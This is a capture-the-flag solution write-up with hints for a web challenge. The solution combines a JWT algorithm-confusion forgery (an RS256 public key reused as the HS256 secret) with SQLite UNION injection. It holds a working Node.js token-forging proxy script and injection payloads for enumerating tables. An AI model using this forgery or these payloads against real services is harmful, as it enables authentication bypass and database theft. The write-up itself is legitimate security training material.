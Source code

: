 ## Skills required: Auth bypass, enumeration

The forum was quite spoily, but it'll still take some effort to implement the idea.

<details>
  <summary> Hint 1: </summary>
  
  What are the immediately obvious attack vector? What stops you from using it?
</details>
<details>
  <summary> Hint 2: </summary>
  
  What is the authentication method used? Maybe it's a good time to [learn about it](https://jwt.io/introduction).
</details>
<details>
  <summary> Hint 3: </summary>
  
  How are jwt tokens processed in the application? Are there any unnecessary options? Will it make a difference?
</details>
<details>
  <summary> <b>Solution:</b> </summary>
  <br/>
  
  The SQL injection here should be painstakingly obvious:
  
``` js
db.get(`SELECT * FROM users WHERE username = '${username}'`, (err, data) => {
    if (err) return rej(err);
    res(data);
});
```
  
  Yet to access that we need to be admin, but the information is signed as a jwt token. We need to dig deeper.
  
  In the source code responsible for decoding token, both `RS256` and `HS256` can be used ([here](https://stackoverflow.com/questions/39239051/rs256-vs-hs256-whats-the-difference) are their differences) while only `RS256` is used for signing - this is definitely interesting.
  
  After some research on common JWT vulnerabilities, I learned about [Key Confusion Vulnerabilities](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/).
  
  While RS256 is an **asymmetric** cipher with public and private keys, HS256 is a **symmetric** cipher and the secret should be kept private. This means we can now sign our payload with "publicKey" as HS256 secret and the server will happily decode it.
  
  After struggling a lot in Python, I've decided to just work in NodeJS. (Caution: sloppy code ahead)
  
``` js
const express = require('express');
const app = express();
const bodyParser = require('body-parser');
const cookieParser = require('cookie-parser');
const http = require('http');
const fetch = require('node-fetch');
const jwt = require('jsonwebtoken');

app.use(bodyParser.urlencoded({ extended: false }));
app.use(cookieParser());

const domain = "XXX"
let template;

const auth = ({username, mode}) => {
  const body = `username=${encodeURIComponent(username)}&password=test&${encodeURIComponent(mode)}=1`;
  return fetch(`http://${domain}/auth`, {
      method: 'POST',
      body,
      redirect: mode === 'register' ? 'follow' : 'manual',
      headers: {
          "Content-Type": "application/x-www-form-urlencoded"
      }
  })
}

const enter = (token) => fetch(`http://${domain}/`, {
  method: 'GET',
  headers: {
      "Cookie":`session=${token}`
  }
})

app.all('*', async (req, res) => {
  const {username} = req.query;
  if(!username) return res.send("NOT OK");
  const reg = await auth({username, mode: 'register'}); // already exists OR successfully
  if(!template){
      const login = await auth({username, mode: 'login'});
      if(/\/$/.test(login.headers.get('location'))){
          const rawCookie = login.headers.get('set-cookie');
          const token = rawCookie.replace(/;.+/,'').replace('session=','')
          const decodedToken = jwt.decode(token, {complete: true})
          template = decodedToken;
      }
  }
  template.payload.username = username
  const token = jwt.sign(template.payload, template.payload.pk);
  const enterResult = await enter(token)
  if(enterResult){
      res.send(await enterResult.text())
  }
});

app.listen(1337, () => console.log('Listening on port 1337'));
```
  
  Now it's enumeration and as always, [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) is very helpful. First, we can try `' UNION SELECT 1,2,3;--`. Note that only the result from the first statement is returned for a multi-statement SQLite query (at least for the challenge). From this we know `username` is the second column.
  
  Table enumeration with `' UNION SELECT sql, sql, sql FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0--` gives `flag_storage`. From there the flag can be found out quickly.
  
  ### Footnote:
  
  - [pyjwt](https://pyjwt.readthedocs.io/en/latest/), a Python library I tried *forbade signing token with public keys in HS256*.

</details>

